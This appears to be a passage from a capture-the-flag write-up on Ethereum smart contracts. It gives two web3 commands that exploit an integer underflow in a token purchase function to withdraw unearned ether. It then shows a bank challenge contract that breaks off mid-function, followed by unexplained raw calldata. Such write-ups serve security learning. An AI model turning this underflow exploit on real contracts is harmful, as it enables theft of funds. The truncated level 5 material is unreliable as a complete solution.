 This challenge was far trickier then first three. Key is in `purchaseTokens` function, `balances[msg.sender] += _value - feeAmount;`.
Only check made is that value is not 0, so by sending very small value, we can actually underflow our balance.
After setting up contract variable our solution is (just remember to double required amount of eth since it's divided by 2 before transfer):

~~~javascript
web3.eth.sendTransaction({from:web3.eth.defaultAccount ,to:tokenContractAddress, value: web3.toWei(0.000009)}, (err,res)=>{console.log(err,res);})
contract.refundTokens(web3.toWei(0.600018), function(err,ok) { console.log(err,ok) } )
~~~

## Lvl 5 Secure Bank

~~~solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";

contract SimpleBank is CtfFramework{
    mapping(address => uint256) public balances;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        balances[msg.sender] = msg.value;
    }

    function deposit(address _user) public payable ctf{
        balances[_user] += msg.value;
    }

    function withdraw(address _user, uint256 _value) public ctf{
        require(_value<=balances[_user], "Insufficient Balance");
        balances[_user] -= _value;
        msg.sender.transfer(_value);
    }

    function () public payable ctf{
        deposit(msg.sender);
    }

}

contract MembersBank is SimpleBank{
    mapping(address => string) public members;

    constructor(address _ctfLauncher, address _player) public payable
        SimpleBank(_ctfLauncher, _player)
    {
    }

    function register(address _user, string _username) public ctf{
        members[_user] = _username;
    }

    modifier isMember(address _user){
        bytes memory username = bytes(members[_user]);
        require(username.length != 0, "Member Must First Register");
        _;
    }

    function deposit(address _user) public payable isMember(_user) ctf{
~~~

[0]:  0000000000000000000000002272071889edceacabce7dfec0b1e017c6cad120
[1]:  0000000000000000000000000000000000000000000000000000000000000040
[2]:  0000000000000000000000000000000000000000000000000000000000000005
[3]:  456f733932000000000000000000000000000000000000000000000000000000
[0]:  0000000000000000000000002272071889edceacabce7dfec0b1e017c6cad120
[1]:  000000000000000000000000000000000000000000000000058d15e176280000